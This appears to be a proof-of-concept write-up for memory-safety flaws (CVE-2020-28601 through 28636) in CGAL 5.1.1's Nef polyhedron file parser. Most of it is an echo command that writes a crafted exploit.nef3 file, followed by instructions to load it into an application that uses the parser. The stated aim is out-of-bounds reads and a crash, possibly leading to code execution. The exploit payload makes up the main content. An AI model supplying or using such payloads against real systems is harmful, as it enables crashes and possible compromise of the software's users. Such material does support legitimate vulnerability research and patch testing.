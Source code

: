 # CGAL libcgal Nef Polygon Parsing Vulnerabilities

## POC URL
https://github.com/CGAL/cgal

## Compilation Environment
- CGAL libcgal version CGAL-5.1.1
- A vulnerable application that uses CGAL's Nef polygon parsing functionality

## Run Command
1. Save the proof-of-concept NEF3 file:
```
echo 'Selective Nef Complex\n8\n42\n18\n2\n84\n2\n30\n0 { 0 2, 0 5, 0 1, -2 | 0 0 5 1 } 1\n1 { 3 5, 6 11, 2 3, -2 | 5 0 5 1 } 1\n2 { 6 8, 12 17, 4 5, -2 | 5 5 5 1 } 1\n3 { 9 11, 18 23, 6 7, -2 | 0 5 0 1 } 1\n4 { 12 14, 24 29, 8 9, -2 | 5 0 0 1 } 1\n5 { 15 17, 30 35, 10 11, -2 | 5 5 0 1 } 1\n6 { 18 20, 36 41, 12 13, -2 | 0 5 5 1 } 1\n7 { 21 23, 42 47, 14 15, -2 | 0 0 3 1 } 0\n0 { 3, 0, 0 0 | 1 0 0 1 } 1\n1 { 18, 0, 0 5 | 0 1 0 1 } 1\n2 { 21, 0, 0 4 | 0 0 -1 1 } 1\n3 { 0, 1, 0 6 | -1 0 0 1 } 1\n4 { 6, 1, 0 7 | 0 1 0 1 } 1\n5 { 13, 1, 0 10 | 0 0 -1 1 } 1\n40 { 28, 13, 0 82 | 1 0 0 1 } 0\n41 { 30, 13, 0 79 | 0 0 -1 1 } 0' > exploit.nef3
```

2. Load the file in a vulnerable application that uses CGAL's Nef polygon parsing functionality

## Expected Output
The vulnerable application should crash due to out-of-bounds reads and type confusion vulnerabilities in the Nef polygon parsing code. The crash may lead to arbitrary code execution depending on the memory layout and the specific vulnerability triggered.

## Vulnerabilities Triggered
This proof-of-concept triggers multiple out-of-bounds read vulnerabilities (CVE-2020-28601 through CVE-2020-28636) in CGAL's Nef polygon parsing functionality, which could potentially lead to code execution.